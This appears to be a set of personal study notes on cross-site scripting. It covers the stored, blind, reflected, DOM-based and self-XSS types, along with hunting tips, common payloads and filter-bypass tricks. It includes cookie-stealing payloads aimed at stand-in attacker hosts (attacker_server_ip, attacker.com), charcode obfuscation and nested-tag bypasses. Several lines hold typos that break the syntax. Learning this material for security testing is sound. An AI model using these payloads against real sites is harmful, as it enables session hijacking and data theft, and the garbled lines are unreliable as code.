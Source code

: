 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* **Stored XSS** - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
    * **Forms, search boxes, name, or username fields.**
    * Sometimes menus or numeric fields can have XSS if you change their values in a proxy.
 * **Blind XSS** - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * **Reflected XSS** - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * h<span>ttps://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * **DOM-based XSS** - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * **Can be embedded in fragments and URL parameters:**
         * h<span>ttps://example.com#about_us
         * h<span>ttps://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
  * **Self-XSS** - a social engineering attack that tricks users into executing a XSS intructed by the attacker.

### Hunting for XSS
   
  * The <script> tag are unlikely to work on their own, you must use different methods.
  * HTML attributes:
      * onlick
      * onerror
      * onload
  * URL schemes like javascript: or data:
      * javascript: alert('Hello')
      * data: text/html; base64, PHNjcmlwd...+"
          * This scheme allows you to embed small files to the URL.
          * The data at the end is encoded in base64 to bypass the XSS filters.
  * Works on <<span>img> tag.
      * https://example.com/upload_profile_pic?url=IMAGE_URL
      * IMAGE URL will be inserted in a <img> tag when the image is rendered.
  * **Take note of which characters are being rendered directly and which ones are escaped.**
###  Common payloads

* <script> alert(1) </script>
* <iframe src = javascript: alert(1) >
* <span><body onload=alert(1)>
* <span>"><img src=x onerror=prompt(1);>
* <script> alert(1)<!-
    * <!- is an HTML comment, prevents syntax errors.
* <a onmouseover" alert(1)"> test </a>
* <script src=//attacker.com/test.js>

### Other test methods

* Test strings: 
    * <span>>
    * '
    * <span><
    * <span>"
    * //
    * :
    * =
    * ;
    * !
    * --
* Fuzzing

### Bypassing filters

* Mix different encodings and capitilizations to confuse filters.
* HTML allows for syntax errors in capitilzations
* If special characters are filtered, you cant write strings into a payload directly.
    * Use JavaScript functions like fromCharCopde() that translates numeric codes to ASCII chars.
    * <scrIPT> location=String.fromCharCode(104,116,...)+document.cookie;</srcIPT>
    * Use h<span>ttp://js.do/
* Sometimes applications remove tags once or a couple times.
    * <scrip<script>t> ... </scrip</script>t>
    * The inner script tags will be removed, but the outer ones will be brought together and execute.
    
